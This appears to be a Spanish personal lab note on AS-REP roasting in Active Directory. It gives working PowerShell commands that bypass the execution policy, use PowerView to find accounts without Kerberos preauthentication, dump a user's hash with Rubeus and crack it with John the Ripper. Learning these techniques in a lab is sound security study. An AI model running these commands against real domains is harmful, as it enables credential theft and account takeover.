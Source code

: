 
AS-REP es una técnica que utiliza el hecho de que algunos usuarios no requieren de una preautenticación de kerberos.

Un atacante descubre estos usuarios vulnerables lanzando la query de usuarios con "Do not require Kerberos preauthentication".

ejemplo de ataque:

```PowerShell
cd C:\tools
powershell -ep bypass
. .\PowerView.ps1
Get-DomainUser | Where-Object { ($_.UserAccountControl -band 4194304) }
```

![[Pasted image 20250321102818.png]]

Como vemos el usuario johnny tiene este permiso asignado, asi que le vamos a hacer un ataque con la herramienta Rubeus

```PowerShell
.\Rubeus.exe asreproast /usr:johnny /oufile:johnnyhash.txt
```

![[Pasted image 20250321103053.png]]

Ahora ya tenemos el hash de johnny, vamos a utilizar john the ripper para poder crackearlo. Lo tenemos dentro de tools, en un zip (dentro de la carpeta run hay un .exe).

```PowerShell
.\john.exe .\johnnyhash.txt --format=krb5asrep --wordlist=.\10k-worst-pass.txt
```

![[Pasted image 20250321103610.png]]

